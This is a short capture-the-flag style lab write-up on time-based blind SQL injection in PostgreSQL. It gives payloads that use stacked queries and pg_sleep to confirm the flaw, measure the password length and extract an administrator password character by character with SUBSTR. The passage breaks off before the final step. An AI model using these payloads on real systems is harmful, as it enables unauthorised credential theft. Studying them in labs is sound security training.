

In the first lab of this type, they ask to add a 10 seconds sleep using an SQL injection.
We know it's PostgreSQL, so we have to use the concatenation operator (`||`) and append a `pg_sleep(10)` **and after that comment the rest of the query.**

In the second lab, the injection is more complicated, and it is because we have to get the password of the administrator user.

First, we confirm we have a SQL injection time-based with the following payload:
`'%3bSELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--`

Then we just have to change the condition from inside with the SUBSTR operator from POSTGRE to test each of the characters and the positions, as done in previous labs. We will measure the response time taken by the server for each of the responses.

First, we will have to check the number of characters of the password:
`%3bSELECT CASE WHEN (LENGTH(password) > §1§) THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users--`
Note: Remember to add **the ; operator URL encoded and to comment the rest of the code in these payloads.**
Enabling the columns that allows us to see the response time, we can see that after 20, the time drops to 6000, so the password is 20 characters long:

`'%3bSELECT CASE WHEN (SUBSTR(password,§1§,1)='§a§') THEN pg_sleep(2) ELSE pg_sleep(0) END FROM users WHERE username='administrator'--`
We can alternatively not use the WHERE and add it as another condition in the WHEN operator:
`'%3bSELECT CASE WHEN (username='administrator' AND SUBSTR(password,§1§,1)='§a§') THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users--`

We can now craft the pasword:
